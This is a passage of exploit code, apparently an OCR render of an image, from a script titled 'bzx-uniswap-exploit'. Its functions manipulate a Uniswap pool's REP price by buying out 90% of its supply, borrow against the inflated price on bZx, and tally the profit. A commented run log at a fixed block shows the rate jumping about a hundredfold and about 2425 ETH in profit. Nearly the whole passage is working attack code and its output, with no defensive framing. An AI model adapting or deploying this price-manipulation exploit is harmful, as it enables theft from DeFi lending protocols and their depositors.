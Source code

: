 ```
        (uint rate, uint slippage) = KYBER_NETWORK.getExpectedRate(REP, KYBER_ETH, rateCheckAmount);
        printf("checking rates tokens=%.18u rate=%.18u slippage=%.18u\n", abi.encode(rateCheckAmount, rate, slippage));
    }
    
    function makeOrder() external {
        UniswapLike uniswap = REP.getUniswapExchange();
        uint totalSupply = REP.balanceOf(address(uniswap));
        uint borrowAmount = totalSupply * 90 / 100;
        REP.getFromUniswap(borrowAmount);
        printf("making order totalSupply=%.18u borrowed=%.18u\n", abi.encode(totalSupply, borrowAmount));
    }
    
    function borrow() external {
        bytes32 hash = doBorrow(BZX_ETH, true, BZX_ETH.marketLiquidity(), WETH, REP);
        printf("borrowing loanHash=%32x\n", abi.encode(hash));
    }
    
    function cleanup() external {
        REP.giveAllToUniswap();
        WETH.withdrawAll();
    }
    
    function checkProfits() external {
        printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
    }
    
    function borrowInterest(uint amount) internal {
        WETH.deposit.value(amount)();
    }
}

/*
### running script "bzx-uniswap-exploit" at block 8547500
#### executing step: exploit
##### calling: checkRates()
checking rates tokens=10.000000000000000000 rate=0.057621091203633720 slippage=0.055892458467524708
##### calling: makeOrder()
making order totalSupply=8856.102959786215028808 borrowed=7970.492663807593525927
##### calling: checkRates()
checking rates tokens=10.000000000000000000 rate=5.656379870360426078 slippage=5.486688474249613295
##### calling: borrow()
collateral_required=702.265284613341236862, interest_required=205.433213643594588344
borrowing loanHash=0x947839881794b73d61a0a27ecdbe8213f543bdd4f4a578eedb5e1be57221109c
##### calling: cleanup()
##### calling: checkProfits()
profits=2425.711777227580307468
#### finished executing step: exploit
*/
```

